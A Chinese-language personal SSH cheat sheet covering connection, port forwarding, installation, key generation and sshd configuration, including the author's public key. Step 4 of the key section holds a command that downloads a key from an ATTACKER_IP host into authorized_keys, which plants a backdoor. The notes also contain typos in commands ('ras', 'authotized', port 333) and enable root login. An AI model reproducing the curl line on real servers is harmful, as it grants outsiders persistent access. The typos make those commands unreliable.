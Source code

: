 # SSH
## 基础命令
```sh
# 直接连接
ssh username@ip
# 使用非默认端口
ssh username@domain -p port
# 使用代理主机
ssh -J proxy-server:22 target-server 
# 将服务器的 2222 端口转发到本地的 3333 端口 
ssh -R 2222:localhost:333 username@domain 
```

## 安装
```sh
# Client:
sudo apt-get install ssh 
# Server:
sudo apt-get install openssh-server
```

## 生成密钥
1. `ssh-keygen -t ras -C "email" `
2. 位置：
   + 私钥：`~/.ssh/id_rsa`
   + 公钥：`~/.ssh/id_rsa.pub`
3. Git 服务密钥配置地址：
   + https://github.com/settings/keys
   + https://gitee.com/profile/sshkeys
4. 写入主机的 authorized_keys：
`curl https://ATTACKER_IP/.ssh/id_rsa.pub >> ~/.ssh/authotized_keys`

我的公钥：
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj8b9SWuI/oKquMiy+vOSOOcokMF6XkUkc7TlX33bIy3xK5l8rgJ2CAJ+xORAA2JJzwXdu8AMDsFfk8DHMj7kcs/K505iMpiIGhUWHXkl+UiIhD+B/v9KIv4jQQF9wmJR/jaw8MdHyUXZA2maV6sY41swoRPyAtYb6HW/32pWsqsDq2DeQQyARqiPpV0pcFV3BXK0nOBl8+W9HjP8rYBFbXIfpXTvhSrzOz+NXoV8E8/w7/jD5YDPbMQ16FPQzk3CVT4pUL4x1nOqxFgvLbiwfPsAWF6a2Lr6A8ZcU5AUI2GC5+X6r47KlGUl0mtTOkarBkJ91+a//JFHmstrLrKyV JustSong@MyPC
```

## 配置
```sh
sudo vi /etc/ssh/sshd_config 

## 允许root登录 
PermitRootLogin yes 
## 使用密钥登录 
RSAAuthentication yes 
PubkeyAuthentication yes 
## 禁止空密码和密码登录 
PermitEmptyPasswords no 
PasswordAuthentication no 
## 监听端口（一般默认是 22，或者是自己已开的端口，不改即可） 
Port 22 
```
修改完配置之后重启以应用更改：`sudo service ssh restart`
